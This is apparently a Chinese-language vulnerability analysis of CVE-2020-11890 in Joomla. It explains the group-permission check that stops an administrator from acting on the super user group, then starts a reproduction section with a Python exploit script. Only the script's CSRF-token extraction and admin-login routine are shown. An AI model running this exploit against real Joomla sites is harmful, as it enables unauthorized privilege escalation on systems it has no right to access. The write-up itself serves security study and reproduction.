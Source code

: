 ![14.png](./resource/(CVE-2020-11890)Joomla远程命令执行漏洞/media/rId51.png)

程序判断superuser的祖先节点是否有在\$this-\>data中出现，\$this-\>data值如下

![15.png](./resource/(CVE-2020-11890)Joomla远程命令执行漏洞/media/rId52.png)

\$this-\>data数组代表目前用户不可以访问的节点id。由于我们使用的是administrator用户组的账号，不可以操作的用户组节点id为8，即super
user，因此\$this-\>data数组值为array (8 =\> 1,)

superuser的祖先数组中的叶子节点值为8，正好在目前用户不可以访问的\$this-\>data数组中

![16.png](./resource/(CVE-2020-11890)Joomla远程命令执行漏洞/media/rId53.png)

因此该用户权限无法进行操作，程序抛出当前用户不是超级管理员的错误

![17.png](./resource/(CVE-2020-11890)Joomla远程命令执行漏洞/media/rId54.png)

### 漏洞复现

![111.png](./resource/(CVE-2020-11890)Joomla远程命令执行漏洞/media/rId56.png)

    #!/usr/bin/python
    import sys
    import requests
    import re
    import argparse


    def extract_token(resp):
        match = re.search(r'name="([a-f0-9]{32})" value="1"', resp.text, re.S)
        if match is None:
            print("[-] Cannot find CSRF token!\n")
            return None
        return match.group(1)


    def try_admin_login(sess, url, uname, upass):
        admin_url = url + '/administrator/index.php'
        print('[+] Getting token for admin login')
        resp = sess.get(admin_url, verify=True)
        token = extract_token(resp)
        if not token:
            return False
        print('[+] Logging in to admin')
        data = {
            'username': uname,
            'passwd': upass,
            'task': 'login',
            token: '1'
        }
        resp = sess.post(admin_url, data=data, verify=True)
        if 'task=profile.edit' not in resp.text:
            print('[!] Admin Login Failure!')
            return None
        print('[+] Admin Login Successfully!')
        return True
